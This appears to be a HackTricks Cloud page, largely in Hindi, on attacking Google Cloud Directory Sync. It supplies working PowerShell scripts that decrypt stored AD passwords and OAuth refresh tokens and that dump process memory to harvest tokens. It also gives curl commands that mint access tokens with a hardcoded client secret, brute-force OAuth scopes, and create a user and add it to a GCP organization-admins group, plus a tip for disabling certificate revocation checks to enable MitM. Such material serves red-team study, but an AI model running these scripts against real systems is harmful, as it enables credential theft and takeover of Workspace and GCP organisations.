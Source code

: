 # GCDS - Google Cloud Directory Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

यह एक उपकरण है जिसका उपयोग **आपके सक्रिय निर्देशिका उपयोगकर्ताओं और समूहों को आपके Workspace के साथ समन्वयित करने के लिए किया जा सकता है** (और इस लेखन के समय इसके विपरीत नहीं)।

यह दिलचस्प है क्योंकि यह एक उपकरण है जिसे **Workspace सुपरयूजर और विशेषाधिकार प्राप्त AD उपयोगकर्ता के क्रेडेंशियल्स** की आवश्यकता होगी। इसलिए, यह संभव है कि इसे एक डोमेन सर्वर के अंदर पाया जा सके जो समय-समय पर उपयोगकर्ताओं को समन्वयित कर रहा हो।

{% hint style="info" %}
**MitM** करने के लिए **`config-manager.exe`** बाइनरी में बस निम्नलिखित पंक्ति जोड़ें: **`-Dcom.sun.net.ssl.checkRevocation=false`**
{% endhint %}

{% hint style="success" %}
ध्यान दें कि [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) **GCDS** का पता लगाने में सक्षम है, कॉन्फ़िगरेशन के बारे में जानकारी प्राप्त करता है और **यहां तक कि पासवर्ड और एन्क्रिप्टेड क्रेडेंशियल्स** भी।
{% endhint %}

यह भी ध्यान दें कि GCDS AD से Workspace में पासवर्ड को समन्वयित नहीं करेगा। यदि कुछ है तो यह बस Workspace में नए बनाए गए उपयोगकर्ताओं के लिए यादृच्छिक पासवर्ड उत्पन्न करेगा जैसा कि आप निम्नलिखित छवि में देख सकते हैं:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - Disk Tokens & AD Credentials

बाइनरी `config-manager.exe` (मुख्य GCDS बाइनरी GUI के साथ) कॉन्फ़िगर की गई सक्रिय निर्देशिका क्रेडेंशियल्स, रिफ्रेश टोकन और एक्सेस को डिफ़ॉल्ट रूप से **xml फ़ाइल** में **`C:\Program Files\Google Cloud Directory Sync`** फ़ोल्डर में **`Untitled-1.xml`** नामक फ़ाइल में संग्रहीत करेगा। हालांकि, इसे उपयोगकर्ता के `Documents` में या **किसी अन्य फ़ोल्डर** में भी सहेजा जा सकता है।

इसके अलावा, रजिस्ट्री **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** के अंदर कुंजी **`open.recent`** हाल ही में खोले गए कॉन्फ़िगरेशन फ़ाइलों (xmls) के पथों को शामिल करती है। इसलिए इसे **खोजने के लिए जांचना संभव है**।

फ़ाइल के अंदर सबसे दिलचस्प जानकारी होगी:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
नोट करें कि उपयोगकर्ता का **refresh** **token** और **password** **AES CBC** का उपयोग करके एक यादृच्छिक रूप से उत्पन्न कुंजी और IV के साथ **encrypted** हैं, जो **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** में संग्रहीत हैं (जहां **`prefs`** Java पुस्तकालय प्राथमिकताएँ संग्रहीत करता है) स्ट्रिंग कुंजी **`/Encryption/Policy/V2.iv`** और **`/Encryption/Policy/V2.key`** में base64 में संग्रहीत हैं।

<details>

<summary>Powershell script to decrypt the refresh token and the password</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

{% hint style="info" %}
ध्यान दें कि इस जानकारी की जांच करना संभव है **`DirSync.jar`** के जावा कोड को **`C:\Program Files\Google Cloud Directory Sync`** में `exportkeys` स्ट्रिंग को खोजकर (क्योंकि यह वह cli पैरामीटर है जिसे बाइनरी `upgrade-config.exe` कुंजी को डंप करने के लिए अपेक्षित करता है)।
{% endhint %}

पॉवरशेल स्क्रिप्ट का उपयोग करने के बजाय, बाइनरी **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** का उपयोग करना भी संभव है जिसमें पैरामीटर `-exportKeys` है और रजिस्ट्री से **Key** और **IV** को हेक्स में प्राप्त करें और फिर उस कुंजी और IV के साथ AES/CBC के साथ कुछ cyberchef का उपयोग करके जानकारी को डिक्रिप्ट करें।

### GCDS - मेमोरी से टोकन डंप करना

GCPW की तरह, `config-manager.exe` प्रक्रिया की मेमोरी को डंप करना संभव है (यह GCDS के मुख्य बाइनरी का नाम है जिसमें GUI है) और आप रिफ्रेश और एक्सेस टोकन पा सकेंगे (यदि वे पहले से उत्पन्न हो चुके हैं)।\
मुझे लगता है कि आप AD कॉन्फ़िगर की गई क्रेडेंशियल्स भी पा सकते हैं।

<details>

<summary>config-manager.exe प्रक्रियाओं को डंप करें और टोकन खोजें</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - रिफ्रेश टोकन से एक्सेस टोकन उत्पन्न करना

रिफ्रेश टोकन का उपयोग करके, इसे और निम्नलिखित कमांड में निर्दिष्ट क्लाइंट आईडी और क्लाइंट सीक्रेट का उपयोग करके एक्सेस टोकन उत्पन्न करना संभव है:
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - Scopes

{% hint style="info" %}
ध्यान दें कि रिफ्रेश टोकन होने के बावजूद, एक्सेस टोकन के लिए किसी भी स्कोप का अनुरोध करना संभव नहीं है क्योंकि आप केवल **उन स्कोप का अनुरोध कर सकते हैं जो उस एप्लिकेशन द्वारा समर्थित हैं जहां आप एक्सेस टोकन उत्पन्न कर रहे हैं**।

इसके अलावा, रिफ्रेश टोकन हर एप्लिकेशन में मान्य नहीं है।
{% endhint %}

डिफ़ॉल्ट रूप से GCSD के पास उपयोगकर्ता के रूप में हर संभावित OAuth स्कोप तक पहुंच नहीं होगी, इसलिए निम्नलिखित स्क्रिप्ट का उपयोग करके हम उन स्कोप को खोज सकते हैं जिन्हें `refresh_token` के साथ `access_token` उत्पन्न करने के लिए उपयोग किया जा सकता है:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

और यह वह आउटपुट है जो मुझे लेखन के समय मिला:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### एक उपयोगकर्ता बनाएं और उसे समूह `gcp-organization-admins` में जोड़ें ताकि GCP में वृद्धि करने की कोशिश की जा सके
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'

# You could also change the password of a user for example
```
{% hint style="danger" %}
नए उपयोगकर्ता को सुपर एडमिन भूमिका देना संभव नहीं है क्योंकि **रीफ्रेश टोकन में आवश्यक विशेषाधिकार देने के लिए पर्याप्त स्कोप नहीं हैं**।
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
